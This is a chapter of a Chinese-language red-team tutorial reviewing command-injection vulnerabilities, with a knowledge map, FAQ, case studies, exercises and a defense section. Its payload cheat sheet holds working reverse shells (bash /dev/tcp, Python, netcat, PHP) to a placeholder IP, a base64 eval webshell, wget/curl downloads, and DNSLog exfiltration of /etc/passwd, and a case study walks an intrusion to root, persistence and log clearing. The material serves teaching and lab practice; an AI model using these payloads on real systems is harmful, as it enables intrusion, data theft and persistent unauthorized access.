






# 第28章 总结与回顾：命令执行模块

> **难度等级：🟡 中等级**
>
> **预计学习时间：60分钟**
>
> **本章看点：命令执行知识图谱、必背知识点、Payload速查表、常见问题汇总、综合案例、综合练习、下一章预告**
>
> ::: tip 说明
> 恭喜你！
> 命令执行模块的两章内容都学完了！
>
> 这一章我们来做一个全面的总结和回顾，
> 帮你把零散的知识点串起来，
> 形成一个完整的知识体系。
>
> 包括：
> - 命令执行知识图谱
> - 必背知识点
> - 常用Payload速查表
> - 常见问题与坑点
> - 5个综合案例
> - 15道综合练习题
>
> 让我们开始吧！
> :::

---

## 💡 先梳理思路：命令执行在整个漏洞体系中的位置

复习之前，先把命令执行漏洞放回到整个Web安全的大图景里看：

```
你的渗透测试工具箱
├── SQL注入 → 能拖数据库
├── XSS → 能控制用户浏览器
├── 文件上传 → 能上传WebShell
├── 命令执行 → 能直接在服务器上敲命令 ★ 本章
├── 文件包含 → 能利用文件来执行代码
├── CSRF → 能冒用用户身份
├── SSRF → 能利用服务器打内网
└── 逻辑漏洞 → 能绕过业务规则
```

**命令执行独特在哪里？**

和文件上传/WebShell相比：
- 文件上传：你得先搞到一个WebShell工具、绕过各种验证、上传脚本文件... 步骤多
- 命令执行：**一个参数就能直接执行系统命令** ← 最直接！

和SQL注入相比：
- SQL注入：你操控的是数据库，虽然可以写文件但步骤复杂
- 命令执行：你操控的是操作系统本身，一步到位

> **命令执行是最"直接"的服务器端漏洞**：
> 它让你直接和操作系统对话，没有中间层。
>
> 也正因为它直接，所以防御稍微到位就很难利用，
> 但一旦利用成功，危害就是致命的。

---

## 📖 本章概述

::: tip 写在前面
命令执行漏洞是Web漏洞中
非常重要的一类，
也是红队行动中最常用的漏洞之一。

为什么这么说呢？
因为一旦有了命令执行，
你就相当于直接拿到了服务器的控制权，
想干什么干什么。

从信息收集到写Shell，
从反弹Shell到提权，
命令执行都是核心。

这两章我们学习了：
- 命令执行的基本概念和原理
- 命令执行 vs 代码执行的区别
- PHP中常见的命令执行函数和代码执行函数
- 管道符、连接符、重定向符等特殊符号
- Windows和Linux命令的区别
- 命令执行漏洞的危害和产生原因
- 空格绕过、关键字绕过、命令分隔符绕过
- 无回显命令执行的利用方法
- DNSLog外带数据
- 10种反弹Shell的姿势
- 写Shell的各种方法
- 绕过disable_functions和open_basedir
- Python、Java、Node.js中的命令执行

内容很多，
也很重要，
这一章我们来系统地梳理一下。
:::

---

## 🎯 学习目标

学完本章，你将能够：

- [x] 建立命令执行的完整知识体系
- [x] 记住命令执行的核心知识点
- [x] 熟练使用常用的命令执行Payload
- [x] 避开命令执行中的常见坑点
- [x] 综合运用命令执行知识解决实际问题
- [x] 为学习下一个模块做好准备

---

## 🗺️ 命令执行知识图谱

首先，
让我们通过一张知识图谱
来回顾一下命令执行模块的整体结构。

### 1.1 知识体系总览

```
命令执行漏洞
├── 基础概念
│   ├── 什么是命令执行漏洞
│   ├── 命令执行 vs 代码执行
│   └── 漏洞产生原因
│
├── PHP危险函数
│   ├── 命令执行函数
│   │   ├── system()
│   │   ├── exec()
│   │   ├── shell_exec()
│   │   ├── passthru()
│   │   ├── popen()
│   │   ├── proc_open()
│   │   └── pcntl_exec()
│   │
│   └── 代码执行函数
│       ├── eval()
│       ├── assert()
│       ├── call_user_func()
│       ├── call_user_func_array()
│       ├── $func() 动态函数
│       ├── preg_replace /e
│       └── create_function()
│
├── 特殊符号
│   ├── 命令连接符
│   │   ├── ; 分号
│   │   ├── && 逻辑与
│   │   ├── || 逻辑或
│   │   └── | 管道符
│   ├── 重定向符
│   │   ├── > 输出覆盖
│   │   ├── >> 输出追加
│   │   ├── < 输入重定向
│   │   └── 2> 错误重定向
│   └── 命令替换
│       ├── $()
│       └── 反引号 ` `
│
├── 绕过技巧
│   ├── 空格绕过
│   │   ├── %09 Tab
│   │   ├── ${IFS}
│   │   ├── < 输入重定向
│   │   ├── {} 花括号扩展
│   │   └── Windows: , ; =
│   ├── 关键字绕过
│   │   ├── 变量拼接
│   │   ├── 字符串反转
│   │   ├── Base64编码
│   │   ├── Hex编码
│   │   ├── 通配符
│   │   └── 自增变量
│   └── 命令分隔符绕过
│       ├── %0a 换行符
│       ├── %0d 回车符
│       ├── 反引号
│       ├── $()
│       └── () / {} 子shell
│
├── 利用方式
│   ├── 有回显
│   │   └── 直接执行命令
│   ├── 无回显
│   │   ├── Sleep盲注
│   │   ├── HTTP外带
│   │   ├── DNS外带（DNSLog）
│   │   └── 写文件
│   ├── 反弹Shell（10种）
│   │   ├── Bash反弹
│   │   ├── Netcat反弹
│   │   ├── Python反弹
│   │   ├── PHP反弹
│   │   ├── Perl反弹
│   │   ├── Ruby反弹
│   │   ├── Java反弹
│   │   ├── Telnet反弹
│   │   ├── Socat反弹
│   │   └── AWK反弹
│   └── 写WebShell
│       ├── echo直接写
│       ├── base64编码写
│       ├── hex编码写
│       ├── wget/curl下载
│       ├── Python写
│       └── printf写
│
├── 限制绕过
│   ├── disable_functions绕过
│   │   ├── 找漏网之鱼
│   │   ├── LD_PRELOAD劫持
│   │   ├── ImageMagick漏洞
│   │   ├── 内存破坏漏洞
│   │   └── 工具：蚁剑/哥斯拉
│   └── open_basedir绕过
│       ├── 有命令执行就不用管
│       └── 各种PHP绕过
│
└── 各语言命令执行
    ├── PHP
    ├── Python
    ├── Java
    └── Node.js
```

**图28-1 命令执行模块知识体系图**



### 1.2 攻击流程

命令执行漏洞的典型攻击流程：

```
发现命令注入点
    ↓
判断是否有回显
    ├─ 有回显 → 直接执行命令收集信息
    └─ 无回显 → DNSLog/HTTP外带验证
    ↓
收集信息（系统、用户、网络、进程等）
    ↓
写WebShell 或 反弹Shell
    ↓
获取交互式Shell
    ↓
提权（从www-data到root）
    ↓
内网渗透、横向移动
    ↓
权限维持、痕迹清理
```

**图28-2 命令执行典型攻击流程图**



---

## 📌 必背知识点TOP20

这20个知识点是命令执行模块的核心，
一定要背下来！

### 基础概念
1. **命令执行漏洞**：用户输入可控，拼接到命令中执行，导致任意系统命令执行。
2. **代码执行**：执行脚本代码（如PHP代码），通过语言函数间接调用系统命令。
3. **漏洞产生根本原因**：用户输入可控 + 拼接到命令/代码中执行。

### PHP危险函数
4. **4个最常用命令执行函数**：`system()`、`exec()`、`shell_exec()`、`passthru()`。
5. **`system()`**：执行命令并直接输出结果，返回最后一行。
6. **`exec()`**：执行命令，结果在数组中，返回最后一行。
7. **`shell_exec()`**：执行命令，返回完整输出字符串，反引号等价。
8. **`eval()`**：最经典的代码执行函数，一句话木马的核心。
9. **动态函数 `$func()`**：变量函数，最隐蔽的代码执行方式之一。

### 特殊符号
10. **4个命令连接符**：`;`（顺序执行）、`&&`（成功才执行）、`||`（失败才执行）、`|`（管道）。
11. **命令替换**：`$()` 和反引号 `` ` ``，可以嵌套执行命令。

### 绕过技巧
12. **空格绕过**：`${IFS}`、`%09`（Tab）、`<`、`{}` 花括号扩展。
13. **关键字绕过**：变量拼接、Base64编码、通配符、字符串反转。
14. **换行符 `%0a`**：可以绕过对 `;`、`&&` 等命令分隔符的过滤。

### 利用方式
15. **无回显利用4种方法**：Sleep盲注、HTTP外带、DNS外带、写文件。
16. **DNSLog原理**：把数据放在子域名中，通过DNS查询记录外带数据。
17. **4种最常用反弹Shell**：Bash反弹、Python反弹、Netcat反弹、PHP反弹。
18. **写Shell常用方法**：echo直接写、base64编码写、wget/curl下载。

### 限制绕过
19. **disable_functions绕过思路**：找漏网之鱼 → LD_PRELOAD劫持 → 内存破坏漏洞。
20. **有命令执行就不用怕open_basedir**：系统命令不受PHP的open_basedir限制。

**图28-3 必背知识点TOP20分类图**



---

## ⚡ 常用Payload速查表

这些都是实战中经常用到的Payload，
建议收藏备用。

### 3.1 命令注入基础Payload

| 目的 | Payload |
|------|---------|
| 最简单的命令注入 | `127.0.0.1; whoami` |
| 用&&连接 | `127.0.0.1 && whoami` |
| 用\|\|连接 | `notexist || whoami` |
| 用管道符 | `echo whoami \| bash` |
| 用换行符 | `127.0.0.1%0awhoami` |
| 用反引号 | `` echo `whoami` `` |
| 用$() | `echo $(whoami)` |

### 3.2 空格绕过Payload

| 方法 | Payload |
|------|---------|
| Tab `%09` | `cat%09/etc/passwd` |
| `${IFS}` | `cat${IFS}/etc/passwd` |
| `$IFS$9` | `cat$IFS$9/etc/passwd` |
| 输入重定向 `<` | `cat</etc/passwd` |
| 花括号扩展 | `{cat,/etc/passwd}` |
| Windows逗号 | `ping,127.0.0.1` |

### 3.3 关键字绕过Payload

| 方法 | Payload |
|------|---------|
| 变量拼接 | `a=c;b=at;$a$b /etc/passwd` |
| Base64 | `echo 'Y2F0IC9ldGMvcGFzc3dk' \| base64 -d \| bash` |
| Hex | `echo '636174202f6574632f706173737764' \| xxd -r -p \| bash` |
| 字符串反转 | `echo 'dwssap/cte/ tac' \| rev \| bash` |
| 通配符 | `/???/cat /???/p?????` |

### 3.4 反弹Shell Payload

**Bash反弹：**
```bash
bash -i >& /dev/tcp/1.1.1.1/4444 0>&1
```

**Python反弹：**
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.1.1.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

**Netcat反弹（有-e）：**
```bash
nc -e /bin/bash 1.1.1.1 4444
```

**Netcat反弹（无-e）：**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.1.1.1 4444 >/tmp/f
```

**PHP反弹：**
```php
php -r '$sock=fsockopen("1.1.1.1",4444);exec("/bin/bash -i <&3 >&3 2>&3");'
```

（把1.1.1.1换成你自己的IP）

### 3.5 写WebShell Payload

**直接写：**
```bash
echo '<?php @eval($_POST["cmd"]);?>' > /var/www/html/shell.php
```

**Base64编码写：**
```bash
echo 'PD9waHAgQGV2YWwoJF9QT1NUWyJjbWQiXSk7Pz4=' | base64 -d > /var/www/html/shell.php
```

**wget下载：**
```bash
wget http://你的IP/shell.php -O /var/www/html/shell.php
```

**curl下载：**
```bash
curl http://你的IP/shell.php -o /var/www/html/shell.php
```

### 3.6 DNSLog外带Payload

```bash
# ping方式
ping -c 1 $(whoami).你的域名.dnslog.cn

# nslookup方式
nslookup $(cat /etc/passwd | base64 | head -c 50).你的域名.dnslog.cn
```

**图28-4 常用Payload速查表分类图**



---

## ❓ 常见问题与坑点汇总

这些都是新手容易踩的坑，
一定要注意！

### 4.1 基础概念类

**Q1：命令执行和代码执行是一回事吗？**
> 不是。
> - 命令执行是执行系统命令（bash/cmd命令）
> - 代码执行是执行脚本代码（如PHP代码）
> 代码执行可以通过调用系统函数来执行系统命令。

**Q2：system()和exec()有什么区别？**
> - `system()`：直接输出结果，返回最后一行
> - `exec()`：不直接输出，结果在数组中，返回最后一行
> 简单说，想直接看结果用system，想处理结果用exec。

**Q3：反引号是什么？和shell_exec()什么关系？**
> 反引号 `` ` `` 是PHP的执行运算符，
> 它的作用和 `shell_exec()` 完全一样，
> 都是执行命令并返回完整输出。

### 4.2 绕过类

**Q4：过滤了空格怎么办？**
> 方法很多：
> - `${IFS}` 或 `$IFS$9`（最常用）
> - `%09` Tab字符
> - `<` 输入重定向
> - `{}` 花括号扩展
> - Windows下还可以用 `,` `;` `=`

**Q5：过滤了关键字（比如cat）怎么办？**
> - 变量拼接：`a=c;b=at;$a$b`
> - Base64编码：`echo base64 | base64 -d | bash`
> - 通配符：`/???/?at`
> - 字符串反转：`echo 'tac' | rev | bash`
> - 用其他命令代替：`tac`、`more`、`less`、`head`、`tail`、`nl`...

**Q6：过滤了; && || | 怎么办？**
> - 用换行符 `%0a`
> - 用回车符 `%0d`
> - 用反引号或 `$()` 命令替换
> - 用 `()` 或 `{}` 子shell

### 4.3 利用类

**Q7：没有回显怎么办？**
> - 首选DNSLog外带（大部分环境都能用）
> - HTTP外带（能出网的话）
> - 写文件然后访问（Web服务器）
> - Sleep盲注（最后手段，比较慢）

**Q8：DNSLog外带有什么限制？**
> - 子域名只能有字母、数字、`-`
> - 每段最多63字符，总长度不超过253
> - 不能有 `.`（点是域名分隔符）
> 所以通常需要base64或hex编码，数据量大的话要分段。

**Q9：反弹Shell连不上怎么办？**
> 按这个顺序排查：
> 1. 你的IP对吗？端口监听了吗？
> 2. 目标能出网吗？能ping通你的IP吗？
> 3. 你的防火墙拦了吗？
> 4. 目标上有bash/python/nc吗？
> 5. 换一种反弹方式试试
> 6. 换个端口试试（比如80、443、53这些常用端口）

**Q10：disable_functions禁了system、exec等怎么办？**
> 1. 先看看有没有漏掉的函数（popen、proc_open、pcntl_exec等）
> 2. 试试蚁剑/哥斯拉的绕过插件
> 3. 试试LD_PRELOAD劫持（需要mail、error_log等函数）
> 4. 根据PHP版本找对应的exp（内存破坏漏洞）
> 5. 看看有没有ImageMagick等第三方库的漏洞

### 4.4 其他常见坑

**Q11：Windows和Linux的命令一样吗？**
> 不一样。常用命令对比如下：
> | 功能 | Linux | Windows |
> |------|-------|---------|
> | 列文件 | ls | dir |
> | 看文件 | cat | type |
> | 看用户 | whoami | whoami |
> | ping | ping -c 4 | ping -n 4 |
> | 命令分隔符 | ; | & |

**Q12：命令执行一定能拿到root吗？**
> 不一定。
> 命令执行的权限取决于Web服务的运行权限，
> 通常是 `www-data`、`apache`、`nobody` 等低权限用户。
> 想要root还需要提权。

**Q13：open_basedir限制了怎么办？**
> 只要有命令执行就不用怕！
> 因为open_basedir是PHP的配置，
> 只限制PHP函数访问文件，
> 不限制系统命令。
> 直接用系统命令（cat、ls等）访问就行。

---

## 📚 综合案例

理论知识总结完了，
我们来看5个综合案例，
看看命令执行在真实场景中是怎么应用的。

### 综合案例1：一次完整的命令注入渗透测试

**背景：**
对某企业官网做渗透测试，
发现官网有一个"在线ping"功能。

**步骤：**

**第1步：发现漏洞点**
- 在官网找到"网络诊断"功能
- 输入IP地址，服务器帮你ping
- 尝试输入 `127.0.0.1`，返回ping结果
- 尝试输入 `127.0.0.1; whoami`，发现回显中有 `www-data`
- 确认存在命令注入漏洞！

**第2步：信息收集**
```bash
# 系统信息
127.0.0.1; uname -a
# Linux xxx 4.15.0-xx-generic #xx-Ubuntu SMP ... x86_64

# 当前用户
127.0.0.1; id
# uid=33(www-data) gid=33(www-data) groups=33(www-data)

# 网站路径
127.0.0.1; pwd
# /var/www/html

# 网络信息
127.0.0.1; ip a
# 发现内网网段 192.168.1.0/24
```

**第3步：写WebShell**
```bash
# 写一句话木马
127.0.0.1; echo 'PD9waHAgQGV2YWwoJF9QT1NUWyJjbWQiXSk7Pz4=' | base64 -d > /var/www/html/shell.php

# 验证
访问 http://目标IP/shell.php，用蚁剑连接成功
```

**第4步：反弹Shell**
- 在自己的VPS上监听：`nc -lvvp 4444`
- 在蚁剑中执行Bash反弹命令
- 成功收到Shell！

**第5步：提权**
- 收集系统信息：`uname -a`、`cat /etc/issue`
- 发现是Ubuntu 18.04，内核版本有漏洞
- 上传对应exp，编译执行
- 成功拿到root权限！

**第6步：内网渗透**
- 收集内网信息：`arp -a`、查看hosts文件
- 发现内网有其他服务器
- 搭建代理，开始横向移动
- ...（后续是内网渗透的内容了）

**总结：**
从一个简单的命令注入，
一步步拿到了root权限，
还进入了内网。
这就是命令执行漏洞的威力！

**图28-5 综合案例1完整渗透流程图**



---

### 综合案例2：CTF中命令执行题型解题技巧

**CTF中命令执行的常见考点：**

1. **各种绕过**
   - 空格绕过
   - 关键字绕过
   - 特殊符号绕过
   - 长度限制绕过

2. **无回显利用**
   - DNSLog外带
   - HTTP外带
   - 时间盲注

3. **绕过disable_functions**
   - 各种LD_PRELOAD
   - 各种内存破坏漏洞

**解题思路：**

1. **先判断类型**
   - 有回显还是无回显？
   - 过滤了什么？
   - 有没有长度限制？

2. **fuzz测试**
   - 测试哪些符号被过滤
   - 测试哪些关键字被过滤
   - 测试有没有长度限制

3. **构造Payload**
   - 根据过滤情况选择绕过方式
   - 一步一步测试，不要急

4. **拿到flag**
   - 有回显直接cat /flag
   - 无回显用DNSLog带出来

**常用技巧：**

- 不知道过滤了什么？用字典fuzz
- 过滤了很多东西？试试base64编码
- 长度很短？用通配符
- PHP环境？试试动态函数调用
- 无回显？先试DNSLog

---

### 综合案例3：命令执行面试题精选

**面试题1：什么是命令注入？和代码注入有什么区别？**
> 命令注入是指攻击者通过注入恶意命令，让服务器执行任意系统命令。
> 代码注入是指注入恶意的脚本代码（如PHP代码），由应用解释执行。
> 区别在于执行的层级不同：命令注入是操作系统层面，代码注入是应用层面。
> 代码注入可以通过调用系统函数来执行系统命令。

**面试题2：命令执行有哪些绕过方式？**
> 空格绕过：${IFS}、%09、<、花括号扩展等
> 关键字绕过：变量拼接、base64编码、通配符、字符串反转等
> 命令分隔符绕过：%0a换行符、反引号、$()、子shell等
> 还有编码绕过、长度绕过、数组绕过等

**面试题3：无回显的命令执行怎么利用？**
> 1. DNSLog外带：最常用，把数据放在子域名里通过DNS查询带出
> 2. HTTP外带：通过curl/wget等把数据发出来
> 3. 时间盲注：用sleep，通过响应时间判断
> 4. 写文件：写到Web目录然后访问

**面试题4：disable_functions怎么绕过？**
> 1. 找没被禁用的函数（popen、proc_open等）
> 2. LD_PRELOAD环境变量劫持
> 3. 利用第三方库漏洞（如ImageMagick）
> 4. 利用PHP内存破坏漏洞（特定版本）
> 5. 利用PHP-FPM等

**面试题5：命令执行怎么防御？**
> 1. 尽量避免调用系统命令
> 2. 必须调用的话，用escapeshellcmd/escapeshellarg转义
> 3. 对用户输入做严格的白名单校验
> 4. Web服务降权运行
> 5. 禁用不必要的危险函数（disable_functions）
> 6. 部署WAF

---

### 综合案例4：命令执行在护网中的应用

**护网行动中，命令执行是最常见的打点方式之一。**

**典型场景：**

1. **通过Web漏洞打点**
   - SQL注入 → 写Shell → 命令执行
   - 文件上传 → 拿Shell → 命令执行
   - 命令注入 → 直接命令执行
   - 反序列化 → 命令执行

2. **信息收集**
   - 收集系统信息、用户信息
   - 收集网络信息、进程信息
   - 为后续提权和横向移动做准备

3. **权限维持**
   - 写WebShell后门
   - 写计划任务后门
   - 添加用户
   - 种SSH公钥

4. **内网渗透**
   - 搭建代理隧道
   - 内网信息收集
   - 横向移动
   - 拿域控

**护网中的注意事项：**
- 操作要谨慎，不要把目标搞挂了
- 尽量隐藏自己，少留痕迹
- 反弹Shell尽量用常见端口（80、443、53等）
- 做好权限维持，防止掉线
- 及时清理日志

---

### 综合案例5：命令执行防御方案

站在防守方的角度，
看看怎么防御命令执行漏洞。

**防御体系（多层防护）：**

**第1层：代码层**
- 尽量避免调用系统命令
- 必须调用的话，用escapeshellcmd()或escapeshellarg()转义
- 对用户输入做严格的白名单校验
  - 比如IP地址：正则匹配合法IP格式
  - 比如文件名：只允许字母数字下划线
- 使用安全的API，而不是调用系统命令
  - 比如ping，用PHP的socket函数自己实现
  - 比如图片处理，用GD库而不是调用ImageMagick命令行

**第2层：配置层**
- 禁用不必要的危险函数（disable_functions）
- 设置open_basedir限制文件访问
- Web服务降权运行（不要用root！）
- PHP安全配置：
  - `safe_mode = On`（虽然PHP 5.4后移除了，但老版本可以用）
  - `disable_functions = system,exec,shell_exec,passthru,eval,assert,...`
  - `open_basedir = /var/www/html:/tmp`

**第3层：网络层**
- 部署WAF，拦截常见的命令注入Payload
- 限制Web服务器的出站访问
  - 不让随便连外网
  - 限制只能访问必要的地址
- 网络隔离，Web服务器和内网其他机器隔离

**第4层：监控层**
- 日志监控，监控异常的命令执行
- 文件监控，监控Web目录下的文件变化
- 进程监控，监控异常进程
- 告警机制，发现异常及时处理

**最佳实践：**
> 防御不是一层就够的，
> 要多层防御、纵深防御。
> 即使某一层被突破了，
> 还有下一层挡着。
>
> 比如：
> 即使代码有漏洞被注入了，
> 还有disable_functions限制；
> 即使绕过了disable_functions，
> 还有权限控制；
> 即使提权了，
> 还有网络隔离；
> 即使进入内网了，
> 还有监控告警。
>
> 这样才能把风险降到最低。

**图28-6 命令执行防御体系架构图**



---

## ✏️ 综合练习

学完了整个模块，
来做15道综合练习题
检验一下学习成果吧！

### 选择题（5道）

1. 以下哪个函数执行命令后会**直接输出**结果？
   - A. exec()
   - B. shell_exec()
   - C. system()
   - D. 以上都不是

2. 在Linux中，以下哪个符号**不是**命令连接符？
   - A. `;`
   - B. `&&`
   - C. `$`
   - D. `|`

3. 无回显命令执行时，以下哪种方法**最常用**？
   - A. Sleep盲注
   - B. DNSLog外带
   - C. 写文件
   - D. 猜解

4. 以下哪种反弹Shell的方式**不是**Linux下常用的？
   - A. Bash反弹
   - B. Python反弹
   - C. PowerShell反弹
   - D. Netcat反弹

5. 关于 `disable_functions`，以下哪种说法是**正确**的？
   - A. 禁用了system就一定不能执行命令了
   - B. LD_PRELOAD劫持是一种绕过方式
   - C. 它可以禁用所有执行命令的方式
   - D. 有open_basedir就不需要disable_functions了

### 填空题（5道）

1. PHP中，反引号运算符 `` ` `` 的作用和函数 _______ 相同。

2. 命令连接符中，_______ 表示前面的命令执行成功才执行后面的，_______ 表示前面的命令执行失败才执行后面的。

3. Linux中，可以用环境变量 _______ 来代替空格。

4. 无回显命令执行时，把数据放在子域名中通过DNS查询带出来的技术叫做 _______。

5. 绕过disable_functions的经典方法是通过 _______ 环境变量劫持系统函数。

### 简答题（3道）

1. 简述命令执行和代码执行的区别和联系。

2. 列举至少5种命令执行的绕过技巧（空格、关键字、分隔符等）。

3. 无回显命令执行有哪些利用方式？各有什么优缺点？

### 实操题（2道）

1. 在DVWA靶场中，从low到high级别，完成Command Injection的全部练习，总结每个级别的过滤方式和绕过方法。

2. 自己搭建一个简单的环境（或者用虚拟机），练习至少3种反弹Shell的方法，确保都能成功。

---

## 📚 学习资源推荐

想深入学习命令执行，
推荐这些资源：

### 在线资源
- **OWASP Command Injection**：https://owasp.org/www-community/attacks/Command_Injection
- **PayloadsAllTheThings**：https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
  - 非常全的命令注入Payload汇总
- **GTFOBins**：https://gtfobins.github.io/
  - Linux二进制提权和绕过的汇总
- **HackTricks**：https://book.hacktricks.xyz/
  - 各种渗透测试技巧

### 书籍
- 《Web安全深度剖析》
- 《白帽子讲Web安全》
- 《Web前端黑客技术揭秘》

### 靶场练习
- **DVWA**：Command Injection模块
- **pikachu**：rce模块
- **WebGoat**：Command Injection
- **upload-labs**：（虽然是上传，但可以练习写Shell）
- **CTFHub**：命令注入相关题目

---

## 🔮 下一章预告

命令执行模块到这里就全部结束了！
恭喜你，
又掌握了一个重要的漏洞类型。

下一个模块我们将学习**文件包含漏洞**：

- **第29章：文件包含漏洞基础**
  - 什么是文件包含
  - 本地文件包含（LFI）vs 远程文件包含（RFI）
  - PHP文件包含函数
  - 读取敏感文件
  - 路径穿越/目录遍历

- **第30章：文件包含漏洞进阶**
  - PHP伪协议详解（10种协议）
  - php://filter、php://input、data://等
  - 本地文件包含到GetShell
  - 日志包含、session包含
  - 截断绕过

- **第31章：总结与回顾：文件包含模块**

文件包含漏洞也是非常经典的Web漏洞，
而且和命令执行、文件上传等漏洞
经常组合利用。
准备好了吗？
我们下一章见！

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day032-advanced-命令执行绕过)
- [➡️ 下一章：---](/redteam/day034-advanced-文件包含基础)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
